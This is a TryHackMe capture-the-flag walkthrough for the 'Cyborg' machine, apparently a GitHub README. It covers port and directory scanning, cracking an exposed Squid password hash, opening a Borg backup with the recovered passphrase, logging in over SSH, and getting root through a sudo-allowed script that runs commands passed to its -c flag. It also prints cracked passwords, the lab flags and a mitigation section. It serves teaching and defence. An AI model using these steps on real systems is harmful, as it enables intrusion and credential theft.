








<div align="center">
  <h1>🤖 Cyborg Walkthrough 🤖</h1>
  <p><b>Platform:</b> TryHackMe | <b>Target IP:</b> 10.49.182.220</p>
</div>

---

## 🎯 Objective
> Compromise the Cyborg machine by enumerating web services, cracking stored credentials, interacting with a Borg backup repository, and escalating privileges via a misconfigured backup script.

<br>

## 🔍 1. Reconnaissance & Enumeration

### 🌐 Network Scanning
We start with a standard Nmap scan to discover open ports and running services.

```sh
nmap -sV -sC 10.49.182.220
```

<div align="center">
  
  <br><i>Figure 1: Nmap reveals SSH (port 22) and an Apache web server (port 80).</i>
</div>

### 📂 Directory Fuzzing
Running `gobuster` against the web server reveals several interesting directories, notably `/admin` and `/etc`.

```sh
gobuster dir -u http://10.49.182.220/ -w /usr/share/wordlists/dirb/common.txt -x php,txt,html,bak,old,zip
```

<div align="center">
  
  <br><i>Figure 2: Gobuster discovers the /admin and /etc endpoints.</i>
</div>

### 🕵️ Web Enumeration
Navigating to the `/admin` panel, we find a shoutbox where the developers mention a Squid proxy and a backup named `music_archive`.

<div align="center">
  
  <br><i>Figure 3: The admin shoutbox hinting at the music_archive backup.</i>
</div>

Exploring the `/etc` directory exposed by Apache directory listing, we find Squid configuration and password files. The `/etc/squid/passwd` file contains an MD5 crypt hash.

<div align="center">
  
  <br><i>Figure 4: Exposed squid password hash.</i>
</div>

```text
music_archive:$apr1$BpZ.Q.1m$F0qqPwHSOG50URuOVQTTn.
```

<br>

## 🚪 2. Exploitation & Access

### 🔐 Cracking the Hash
We use John the Ripper and the `rockyou.txt` wordlist to crack the extracted hash.

```sh
printf '%s\n' 'music_archive:$apr1$BpZ.Q.1m$F0qqPwHSOG50URuOVQTTn.' > /tmp/squid_hash
john --format=md5crypt --wordlist=/tmp/rockyou.txt /tmp/squid_hash
```

<div align="center">
  
  <br><i>Figure 5: Successfully cracking the hash to reveal the password "squidward".</i>
</div>

### 📦 Extracting the Borg Backup
The admin panel linked to an `archive.tar` file. Downloading and extracting it reveals a Borg backup repository.

<div align="center">
  
  <br><i>Figure 6: Inspecting the extracted Borg backup repository.</i>
</div>

Using the cracked password `squidward` as the Borg repository passphrase, we can extract the archive contents.

```sh
BORG_PASSPHRASE=squidward borg extract /tmp/music_repo/home/field/dev/final_archive::music_archive
```

Inside the extracted files, we find a note containing Alex's credentials: `alex:S3cretP@s3`.

<br>

## 🛡️ 3. Privilege Escalation

### 💻 Initial Foothold
We use the discovered credentials to SSH into the machine as user `alex`.

```sh
ssh alex@10.49.182.220
```

<div align="center">
  
  <br><i>Figure 7: Successfully logging in via SSH and enumerating Alex's home directory.</i>
</div>

### ⚙️ Root Escalation
Checking our sudo privileges (`sudo -l`) reveals that `alex` can run `/etc/mp3backups/backup.sh` as root without a password. Reading this script shows it executes arbitrary commands passed to the `-c` flag.

<div align="center">
  
  <br><i>Figure 8: Reading the user flag, checking sudo permissions, and inspecting the vulnerable backup script.</i>
</div>

We exploit this by passing a command to read the root flag directly (or spawning a root shell):
```sh
sudo /etc/mp3backups/backup.sh -c '/bin/cat /root/root.txt'
```

<br>

## 🏁 4. Flags

- **User Flag:** `flag{1_hop3_y0u_ke3p_th3_arch1v3s_saf3}`
- **Root Flag:** `flag{Than5s_f0r_play1ng_H0p£_y0u_enJ053d}`

<br>

## 🧠 5. Vulnerability Chain & Mitigation

<details>
<summary><b>Click to expand vulnerability details</b></summary>
<br>

**The Vulnerability Chain:**
1. **Information Disclosure:** Apache directory listing exposed `/etc/squid/passwd`.
2. **Weak Credentials:** The `music_archive` hash was cracked offline to `squidward`.
3. **Backup Exposure:** A Borg archive was available for download, and its passphrase was reused from the Squid proxy.
4. **Credential Exposure:** Extracting the Borg backup revealed Alex's plaintext SSH password.
5. **Insecure Sudo Configuration:** Alex had passwordless sudo access to a script (`backup.sh`) that insecurely executed commands provided via the `-c` parameter using command substitution `cmd=$($command)`.

**Mitigations:**
- **Disable Directory Listing:** Ensure `Options -Indexes` is set in Apache to prevent exposing configuration files.
- **Strong Passwords:** Use complex passphrases for backups and avoid reusing them across services.
- **Secure Sudo Permissions:** Never allow passwordless sudo for scripts that can execute arbitrary system commands. If input must be passed, sanitize it strictly and avoid direct command substitution.
</details>

---
<div align="center">
  <i>Walkthrough updated on 1 October 2026.</i>
</div>
